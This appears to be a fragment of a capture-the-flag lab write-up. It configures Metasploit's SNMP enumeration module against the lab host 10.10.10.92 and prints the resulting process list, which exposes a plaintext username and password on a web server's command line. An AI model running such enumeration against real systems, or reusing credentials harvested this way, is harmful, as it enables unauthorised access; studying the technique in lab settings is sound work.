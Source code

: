     msf auxiliary(scanner/snmp/snmp_enum) > show options
    
    Module options (auxiliary/scanner/snmp/snmp_enum):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMUNITY  public           yes       SNMP Community String
       RETRIES    1                yes       SNMP Retries
       RHOSTS                      yes       The target address range or CIDR identifier
       RPORT      161              yes       The target port (UDP)
       THREADS    1                yes       The number of concurrent threads
       TIMEOUT    1                yes       SNMP Timeout
       VERSION    1                yes       SNMP Version <1/2c>

    msf auxiliary(scanner/snmp/snmp_enum) > set RHOSTS 10.10.10.92
    
We launch the exploit and see what we find ! :D


    417                 unknown             rdma_cm                                                     
    519                 runnable            systemd-network     /lib/systemd/systemd-networkd                    
    544                 runnable            systemd-timesyn     /lib/systemd/systemd-timesyncd                    
    547                 runnable            systemd-resolve     /lib/systemd/systemd-resolved                    
    551                 runnable            rsyslogd            /usr/sbin/rsyslogd  -n                  
    553                 runnable            VGAuthService       /usr/bin/VGAuthService                    
    558                 runnable            networkd-dispat     /usr/bin/python3    /usr/bin/networkd-dispatcher
    561                 runnable            lxcfs               /usr/bin/lxcfs      /var/lib/lxcfs/     
    568                 runnable            cron                /usr/sbin/cron      -f                  
    570                 runnable            atd                 /usr/sbin/atd       -f                  
    572                 runnable            systemd-logind      /lib/systemd/systemd-logind                    
    576                 runnable            accounts-daemon     /usr/lib/accountsservice/accounts-daemon                    
    577                 runnable            dbus-daemon         /usr/bin/dbus-daemon--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
    578                 runnable            cron                /usr/sbin/CRON      -f                  
    583                 runnable            sh                  /bin/sh             -c /home/loki/hosted/webstart.sh
    588                 running             snmpd               /usr/sbin/snmpd     -Lsd -Lf /dev/null -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f
    594                 runnable            sh                  /bin/sh             /home/loki/hosted/webstart.sh
    596                 runnable            python              python              -m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/
    628                 runnable            iscsid              /sbin/iscsid                            
    629                 runnable            iscsid              /sbin/iscsid                            
    644                 runnable            sshd                /usr/sbin/sshd      -D                  
    645                 runnable            polkitd             /usr/lib/policykit-1/polkitd--no-debug          
    675                 runnable            agetty              /sbin/agetty        -o -p -- \u --noclear tty1 linux
    735                 runnable            mysqld              /usr/sbin/mysqld    --daemonize --pid-file=/run/mysqld/mysqld.pid
    751                 runnable            apache2             /usr/sbin/apache2   -k start            
    776                 runnable            apache2             /usr/sbin/apache2   -k start            
    777                 runnable            apache2             /usr/sbin/apache2   -k start            
    778                 runnable            apache2             /usr/sbin/apache2   -k start            
    779                 runnable            apache2             /usr/sbin/apache2   -k start            
    780                 runnable            apache2             /usr/sbin/apache2   -k start            
    1236                runnable            apache2             /usr/sbin/apache2   -k start
  